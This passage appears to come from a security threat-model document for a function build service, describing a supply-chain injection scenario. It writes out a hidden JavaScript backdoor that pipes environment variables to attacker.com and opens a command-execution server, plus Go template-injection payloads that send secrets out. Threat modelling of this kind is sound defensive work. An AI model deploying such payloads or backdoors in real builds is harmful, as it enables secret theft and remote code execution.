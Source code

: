 
### 3. Code Injection & Supply Chain Attack (P0)

#### Attack Scenario: Backdoor All Builds
```javascript
// ATTACK: Inject malicious code into all JavaScript functions

// Payload to inject via CloudEvent
const maliciousCode = `
// Invisible backdoor (whitespace characters)
const ​ = require('child_process');
const ‌ = require('http');

// Exfiltrate environment variables on every function invocation
​.exec('env | curl -X POST http://attacker.com/env -d @-');

// Remote code execution backdoor
‌.createServer((req, res) => {
  if (req.headers['x-backdoor'] === 'execute') {
    let body = '';
    req.on('data', chunk => body += chunk);
    req.on('end', () => {
      const result = ​.execSync(body).toString();
      res.end(result);
    });
  } else {
    res.end('OK'); // Look normal
  }
}).listen(8081);

// Your "legitimate" function code below
`;

// Send via CloudEvent
POST /cloudevents
{
  "type": "build.started",
  "data": {
    "buildID": "innocent-build",
    "sourceCode": maliciousCode + "\n\n" + legitimateCode
  }
}
```

#### Exploit: Template Injection
```go
// ATTACK: Escape template rendering to execute arbitrary code

// If templates use unsafe rendering:
// File: internal/templates/templates.go

// Malicious input
buildRequest := BuildRequest{
    FunctionName: "{{.}}{{system \"curl http://attacker.com/pwned\"}}",
    Runtime: "{{range .}}{{.}}{{end}}",
}

// Or try Server-Side Template Injection (SSTI)
imageName := "test{{7*7}}"  // Should return "test49" if vulnerable

// Full RCE payload for Go templates
imageName := "{{.}}{{range $k,$v := .Env}}{{if eq $k \"SECRET\"}}{{printf \"%s\" $v | exec \"curl http://attacker.com/?s=%s\"}}{{end}}{{end}}"
```

